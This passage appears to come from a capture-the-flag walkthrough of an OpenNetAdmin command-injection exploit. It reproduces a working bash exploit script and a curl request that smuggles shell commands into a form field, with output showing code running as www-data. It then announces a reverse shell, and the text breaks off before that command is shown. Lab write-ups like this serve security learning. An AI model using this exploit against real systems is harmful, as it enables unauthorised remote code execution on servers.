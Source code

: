 

There's a link to this exploit on
[exploit-db.com](https://www.exploit-db.com/exploits/47691). It's super
simple. The script runs an infinite bash loop taking commands and
printing the output:



    #!/bin/bash

    URL="${1}"
    while true;do
     echo -n "$ "; read cmd
     curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
    done



I can test it out with just curl. One lesson I learned is that it is
important to have the trailing `/` at the end of the url:



    root@kali# curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping"  http://10.10.10.171/ona/
    ...[snip]...
    <!-- Module Output -->
    <table style="background-color: #F2F2F2; padding-left: 25px; padding-right: 25px;" width="100%" cellspacing="0" border="0" cellpadding="0">
        <tr>
            <td align="left" class="padding">
                <br>
                <div style="border: solid 2px #000000; background-color: #FFFFFF; width: 650px; height: 350px; overflow: auto;resize: both;">
                    <pre style="padding: 4px;font-family: monospace;">uid=33(www-data) gid=33(www-data) groups=33(www-data)
    </pre>
                </div>
            </td>
        </tr>
    </table>

    ...[snip]...



I can see the output of `id` at the end of the `Module Output` section.
The exploit from the site just adds an `echo` before and after the
command the user runs and then uses `sed` to cut out the command output
and ignore the rest. I could do this myself, but I'll just get a reverse
shell and leave that as an exercise for the motivated reader.

### Shell

Since I want a legit shell, I'll use curl to push a `bash` reverse
shell:
